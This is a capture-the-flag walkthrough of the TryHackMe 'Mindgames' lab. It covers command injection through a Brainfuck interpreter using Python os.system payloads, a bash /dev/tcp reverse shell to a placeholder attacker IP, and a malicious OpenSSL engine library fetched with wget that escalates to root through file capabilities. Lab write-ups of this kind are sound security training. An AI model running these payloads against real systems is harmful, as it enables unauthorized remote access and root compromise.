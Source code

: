 # [Mindgames](https://tryhackme.com/room/mindgames)

## Just a terrible idea...

# Capture the flags

## No hints. Hack it. Don't give up if you get stuck, enumerate harder

### User flag.

_user.txt_

1. Perform network enumeration to identify open services

```bash
nmap <TARGET_IP>
```

<img width="652" height="179" alt="SCREEN01" src="https://github.com/user-attachments/assets/6604636e-71f1-4880-bbb0-2642932f582a" />

2. Navigate to `http://<TARGET_IP>` to examine the web application

   - The page contains "Hello, World", and Fibonacci sequence code written in Python-Brainfuck programming language
   - Features an interactive Brainfuck compiler/interpreter

3. Research Brainfuck syntax using resources like [dCode Brainfuck Decoder](https://www.dcode.fr/brainfuck-language).

4. Convert Python payload to Brainfuck, and craft payload to read the user flag

```python
# Python code:
__import__('os').system('ls -la ../')
```

```
Brainfuck:
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>-----..++++++++++.++++.+++.-.+++.++.---------------------..<<++++++++++.-.>>++++++++++++++++.++++.<<.++.+++++.>>.++++++.------.+.---------------.++++++++.<<------.-.>>-.+++++++.<<-------.+++++++++++++.>>-------.-----------.<<-------------.++++++++++++++..+.--------.++.
```

<img width="1178" height="362" alt="SCREEN02" src="https://github.com/user-attachments/assets/161b4773-364f-4cad-9e40-9704b829fc17" />

```python
# Python code
__import__('os').system('cat ../user.txt')
```

```
Brainfuck:
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>-----..++++++++++.++++.+++.-.+++.++.---------------------..<<++++++++++.-.>>++++++++++++++++.++++.<<.++.+++++.>>.++++++.------.+.---------------.++++++++.<<------.-.>>----------.--.+++++++++++++++++++.<<-------.++++++++++++++..+.>>+.--.--------------.+++++++++++++.<<-.>>++.++++.----.<<-------.++.
```

<img width="1188" height="215" alt="SCREEN03" src="https://github.com/user-attachments/assets/e2fb4a0b-79c1-4575-9e7f-7ed19d93d4df" />

---

### Root flag.

_/root/root.txt_

1. Set up netcat listener on attacking machine

```bash
nc -lvnp 4444
```

2. Create Python reverse shell payload

```python
__import__('os').system('/bin/bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"')
```

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>-----..++++++++++.++++.+++.-.+++.++.---------------------..<<++++++++++.-.>>++++++++++++++++.++++.<<.++.+++++.>>.++++++.------.+.---------------.++++++++.<<------.-.>>-----------.-.++++++++++++++++++.-----------.<<-------.+++++++++++++.>>+.<<-------------.>--------.<++++++.------.+++++++++++++++.>>-----.+.+++++++++++++++++.<<.>>--.-----------------.+++++++++++++.<<.++.-.--.+++.-.--.+++.-.++.----.>-----.<+.+++++....--------------------.>---------.++++++++++++++.<++++++.+++++++++++.----------.++.
```

3. Upgrade to fully interactive shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

4. Search for capabilities-based privilege escalation vectors

```bash
getcap -r / 2>/dev/null
```

<img width="649" height="78" alt="SCREEN04" src="https://github.com/user-attachments/assets/acebd333-9537-4aec-876c-dcaf5b041ea7" />

5. Ensure development libraries are available

```bash
sudo apt-get install libssl-dev
```

6. Create malicious OpenSSL engine

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

7. Compile the malicious engine as a shared library

```bash
gcc -fPIC -o exploit.o -c exploit.c
gcc -shared -o exploit.so -lcrypto exploit.o
```

8. Set up HTTP server on attacking machine

```bash
python -m SimpleHTTPServer
```

9. On target machine, download and execute the exploit

```bash
cd /tmp
wget <ATTACKER_IP>:8000/exploit.so
openssl req -engine ./exploit.so
cat /root/root.txt
```

<img width="650" height="244" alt="SCREEN05" src="https://github.com/user-attachments/assets/ae35cc4c-aa7c-44dc-b68d-650c40d5f284" />
